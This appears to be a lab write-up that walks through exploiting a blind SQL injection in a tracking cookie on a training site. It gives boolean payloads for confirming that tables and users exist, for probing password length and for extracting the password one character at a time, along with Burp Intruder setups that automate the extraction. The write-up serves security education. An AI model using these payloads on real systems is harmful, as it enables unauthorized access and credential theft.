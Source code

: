 # Lab: Blind SQL injection with conditional responses
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Blind SQL injection
We don't have the typical possibility to inject statement like before. The websites uses a cookie `TrackingId` to show the "Welcome back" message at the top of the page:
![Welcome back](images/Blind_SQL_injection_with_conditional_responses_0.png)

From the description we know that this cookie is vulnerable to SQL injection. To make a use of this, we can inject statements in the value of the cookie, that create a conditional return value. If the value is true, the message will be shown. If it's false, it won't.

For example the following value will cause that the message isn't shown anymore:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='2
```

While the following meets the condition again and the message is shown:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='1
```

The serverside created SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' and '1'='2'
```

## Solution
The goal in this lab is to abuse the noted vulnerability to create a conditional statement and "guess" the administrator password over that way. If our guess is true, the "Welcome back" message is shown. If not, it's not shown.

### Information gathering
From the lab description we know that there is a table called 'Users' with an user called 'Administrator'. But if we don't have this information we can examine the database with the following statements. If the statements are true, the welcome message is shown.

Determine if there is a table called 'Users':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users LIMIT 1)='a
```

Check if there is a user called 'Administrator':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

Guess the password length by increasing the number behind the '>':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
This can be done either by manually changing the number or using Burp Intruder to automate things up. The Intruder can be configured like the following:
| Positions | Payloads | Settings | Results |
| --------- | -------- | -------- | ------- |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_0.png) | ![Payloads](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_1.png) | ![Settings](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_2.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_3.png) |

In the results we see that the response for `LENGTH(password)>20)='a` won't give the welcome message. So our password is 20 characters long.

### Payload (Sniper)
Using the same approach, we can test the password character wise for matching to specific characters. From the description we know that only lowercase and alphanumeric are used. Because Burp CE has no predefined lists for Intruder, you can either create a list with the character sets and imported it or use the _Brute Forcer_ payload type. The statement we will use looks like the following:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

The corresponding SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'
```

Intruder will iterate the character through the given list. If there is a match, we will check the next char by adjusting the payload:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```

The configuration of Intruder looks like the following:
| Positions | Payloads | Results |
| --------- | -------- | ------- |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_0.png) | ![Payloads](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_1.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_2.png) |

We will find the password of the administrator: `6718hmev95qbvnbglc8o`

Logging in with those credentials solves this lab.
![Solved](images/Blind_SQL_injection_with_conditional_responses_1.png)

### Payload (Cluster Bomb)
With Burp Intruder we can automate the previous step further. With the attack type _Cluster Bomb_ we can save us the part of adjusting the statement manually.

To do so we set the type to _Cluster Bomb_ and use the following statement:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```

For the first sector we use the payload type _Numbers_ and for the second the type _Brute Forcer_:
| Positions | Payload Numbers | Payload Brute Forcer | Results |
| --------- | --------------- | -------------------- | ------- |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_0.png) | ![Payload Numbers](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_1.png) | ![Payload Brute Forcer](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_2.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_3.png) |

This setup will test for every position of the password every character from the set. Sorting or filtering the results will show us the correct character for each position.

_Keep in mind that with Burp CE the Cluster Bomb attack will take a lot more time than it would in the Premium Edition._
